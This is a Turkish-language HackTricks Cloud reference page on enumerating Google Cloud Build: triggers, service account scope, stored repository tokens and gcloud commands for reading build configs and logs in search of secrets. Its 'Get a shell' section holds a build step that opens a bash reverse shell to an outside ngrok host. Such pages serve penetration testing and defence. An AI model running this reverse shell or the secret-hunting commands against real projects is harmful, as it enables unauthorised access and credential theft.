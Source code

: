 # GCP - Cloud Build Enum

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) koleksiyonumuzdaki özel [**NFT'leri**](https://opensea.io/collection/the-peass-family) keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'ı takip edin.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek** paylaşın.

</details>

## Temel Bilgiler

Google Cloud Build, **yazılım oluşturma** ve yayınlama süreçlerini otomatikleştiren bir yönetilen CI/CD platformudur. **Kaynak kod depolarıyla entegre olan** ve geniş bir programlama dilini destekleyen bir platformdur. Geliştiricilere kodu otomatik olarak oluşturma, test etme ve dağıtma imkanı sağlar ve aynı zamanda oluşturma adımlarını ve iş akışlarını özelleştirme esnekliği sunar.

Her Cloud Build Tetikleyici, bir Cloud Deposu ile ilişkilidir veya harici bir depo ile doğrudan bağlantılıdır (Github, Bitbucket ve Gitlab).

{% hint style="success" %}
Buradan veya Bulut Depolarından Github/Bitbucket belirteci çalmak için herhangi bir yol göremedim çünkü repo indirildiğinde [https://source.cloud.google.com/](https://source.cloud.google.com/) URL'si üzerinden erişilir ve Github istemci tarafından erişilmez.
{% endhint %}

### Olaylar

Cloud Build, aşağıdaki durumlarda tetiklenebilir:

* **Bir dalda itme**: Dalı belirtin
* **Yeni bir etiket itme**: Etiketi belirtin
* **Çekme isteği**: PR'yi alan dalı belirtin
* **Manuel çağrı**
* **Pub/Sub mesajı:** Konuyu belirtin
* **Webhook olayı**: Bir HTTPS URL'si açığa çıkarır ve istek bir sır ile kimlik doğrulaması yapmalıdır

### Yürütme

3 seçenek vardır:

* Komutları belirten bir yaml/json. Genellikle: `/cloudbuild.yaml`
* Web konsolunda ve cli'de "inline" olarak belirtilebilen tek seçenek
* En yaygın seçenek
* Kimlik doğrulaması yapılmamış erişim için önemlidir
* Oluşturmak için bir **Dockerfile**
* Oluşturmak için bir **Buildpack**

### SA İzinleri

**Hizmet Hesabı, `cloud-platform` kapsamına sahiptir**, bu nedenle **tüm yetkileri kullanabilir**. **Bir SA belirtilmezse** (örneğin, gönderme işlemi yapılırken) **varsayılan SA** `<proj-numarası>@cloudbuild.gserviceaccount.com` **kullanılır.**

Varsayılan olarak hiçbir izin verilmez, ancak bazı izinler vermek oldukça kolaydır:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Onaylar

Bir Cloud Build, oluşturma işlemleri için onay gerektirecek şekilde yapılandırılabilir (varsayılan olarak devre dışı).

### Bağlantılar ve Depolar

Bağlantılar şunlar üzerinden oluşturulabilir:

* **GitHub:** İzinler için bir OAuth iletişim kutusu gösterecektir ve **Github belirteci almak** için izin isteyecektir. Bu belirteç, **Secret Manager** içinde depolanacaktır.
* **GitHub Enterprise:** Bir **GithubApp** yüklemek için isteyecektir. GitHub Enterprise ana bilgisayarınızdan bir **kimlik doğrulama belirteci** oluşturulacak ve bu projede bir **Secret Manager** sırrı olarak depolanacaktır.
* **GitLab / Enterprise:** API erişim belirteci ve Okuma API erişim belirteci sağlamanız gerekmektedir ve bunlar **Secret Manager** içinde depolanacaktır.

Bir bağlantı oluşturulduktan sonra, Github hesabının erişimine sahip olduğu depoları bağlamak için kullanabilirsiniz.

Bu seçenek düğmesiyle kullanılabilir:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Bu yöntemle bağlantılı depoların yalnızca 2. nesil kullanarak Tetikleyicilerde mevcut olduğunu unutmayın.
{% endhint %}

### Bir Depo Bağlama

Bu, bir **`bağlantı`** ile aynı değildir. Bu, **Github veya Bitbucket** deposuna erişim sağlamanın **farklı** yollarını sağlar, ancak bir bağlantı nesnesi oluşturmaz, ancak bir depo nesnesi (1. nesil) oluşturur.

Bu seçenek düğmesiyle kullanılabilir:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Depolama

Bazen Cloud Build, tetikleyici için dosyaları depolamak için **yeni bir depolama oluşturur**. Bu örnekte olduğu gibi GCP'nin sunduğu örnekte olduğu gibi.
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Bir `.tgz` dosyasıyla kullanılacak dosyaları depolamak için [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) adında bir Depolama kovası oluşturulur.

### Kabuk alın
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Saptama

Build yapılandırmalarında ve günlüklerde **hassas bilgiler bulabilirsiniz**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Yetki Yükseltme

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Kimlik Doğrulamasız Erişim

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Saldırı Sonrası

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya HackTricks'i **PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'da takip edin.**
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek** paylaşın.

</details>
